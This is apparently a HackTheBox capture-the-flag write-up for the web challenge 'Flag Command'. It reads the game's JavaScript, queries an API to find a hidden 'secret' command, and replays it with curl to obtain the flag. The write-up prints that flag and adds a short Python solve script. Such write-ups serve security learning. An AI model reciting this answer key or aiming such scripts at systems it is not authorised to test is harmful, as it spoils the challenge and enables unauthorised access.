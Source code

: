 # HTB WEB - Flag Command

After landing on the page the first thing to do is to enumerate the site, since some JS files are given to run the game those are a good place to start. Looking at `main.js` it appears there is an api which lists the current commands.

``` js
const fetchOptions = () => {
    fetch('/api/options')
        .then((data) => data.json())
        .then((res) => {
            availableOptions = res.allPossibleCommands;

        })
        .catch(() => {
            availableOptions = undefined;
        })
}
```

Calling that function we get a json of the available commands

``` bash
$ curl http://94.237.59.199:32475/api/options

{
  "allPossibleCommands": {
    "1": [
      "HEAD NORTH",
      "HEAD WEST",
      "HEAD EAST",
      "HEAD SOUTH"
    ],
    "2": [
      "GO DEEPER INTO THE FOREST",
      "FOLLOW A MYSTERIOUS PATH",
      "CLIMB A TREE",
      "TURN BACK"
    ],
    "3": [
      "EXPLORE A CAVE",
      "CROSS A RICKETY BRIDGE",
      "FOLLOW A GLOWING BUTTERFLY",
      "SET UP CAMP"
    ],
    "4": [
      "ENTER A MAGICAL PORTAL",
      "SWIM ACROSS A MYSTERIOUS LAKE",
      "FOLLOW A SINGING SQUIRREL",
      "BUILD A RAFT AND SAIL DOWNSTREAM"
    ],
    "secret": [
      "Blip-blop, in a pickle with a hiccup! Shmiggity-shmack"
    ]
  }
}
```

The key `secret` seems pretty important, and it looks like the command for the secret is pretty long. We will need to figure out how to give the application a command. Looking through `main.js` again, we see the function `CheckMessage`

``` js
async function CheckMessage() {
    fetchingResponse = true;
    currentCommand = commandHistory[commandHistory.length - 1];

    if (availableOptions[currentStep].includes(currentCommand) || availableOptions['secret'].includes(currentCommand)) {
        await fetch('/api/monitor', {
            method: 'POST',
            headers: {
                'Content-Type': 'application/json'
            },
            body: JSON.stringify({ 'command': currentCommand })
        })
...
```

It looks like sending a POST request with the command embedded will do the trick.

``` bash
$ curl -X POST http://94.237.59.199:32475/api/monitor \
  -H "Content-Type: application/json" \
  -d '{"command": "Blip-blop, in a pickle with a hiccup! Shmiggity-shmack"}'

{
  "message": "HTB{D3v3l0p3r_t00l5_4r3_b35t__t0015_wh4t_d0_y0u_Th1nk??}"
}
```

With this we get the flag: HTB{D3v3l0p3r_t00l5_4r3_b35t__t0015_wh4t_d0_y0u_Th1nk??}


Script:

``` python
import requests
import json

HOST = '94.237.59.199'
PORT = 32475
URL = f'http://{HOST}:{PORT}'
 
# Grab the secret command 
resp = requests.get(f'{URL}/api/options')
options = json.loads(resp.text)
secret_cmd = options['allPossibleCommands']['secret'][0]

# Pass in the secret command to get the flag 
resp = requests.post(f'{URL}/api/monitor', json={'command': secret_cmd})
flag = json.loads(resp.text)['message']
print(flag)
```